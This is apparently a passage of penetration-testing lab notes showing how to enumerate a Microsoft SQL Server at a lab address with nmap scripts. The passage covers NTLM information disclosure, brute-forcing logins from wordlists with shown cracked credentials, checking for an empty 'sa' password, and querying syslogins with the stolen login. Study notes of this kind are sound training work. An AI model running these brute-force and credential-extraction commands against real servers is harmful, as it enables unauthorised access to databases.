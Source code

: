 ![nmap scan](assets/image-20230219184629810.png)

- *Sending a MS-TDS NTLM authentication request with an invalid domain and null credentials will cause the remote service to respond with a NTLMSSP message disclosing information to include NetBIOS, DNS, and OS build version.*
- For above default scripts, `nmap --script` command option can also be used:

```bash
nmap --script ms-sql-info -p1433 10.4.21.27
```

```bash
nmap --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 -p1433 10.4.21.27
```

> 📌 Server is `Microsoft SQL Server 2019`

- Enumerate MSSQL users and password.

```bash
nmap --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt -p1433 10.4.21.27
```

```bash
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [10.4.21.27:1433]
|     Credentials found:
|       dbadmin:bubbles1 => Login Success
|       admin:anamaria => Login Success
|_      auditor:jasmine1 => Login Success
```

![nmap ms-sql-brute](assets/image-20230219191658970.png)

> 📌 Valid MSSQL users and passwords are:
>
> `dbadmin:bubbles1`
>
> `admin:anamaria`
>
> `auditor:jasmine1`

- Check empty password users.

```bash
nmap --script ms-sql-empty-password -p1433 10.4.21.27
```

> 📌 ***sa*** user is enabled with `empty password`.

- Extract *sysusers* from MSSQL and store the output in a file

```bash
nmap --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -p1433 10.4.21.27 -oN output.txt
```
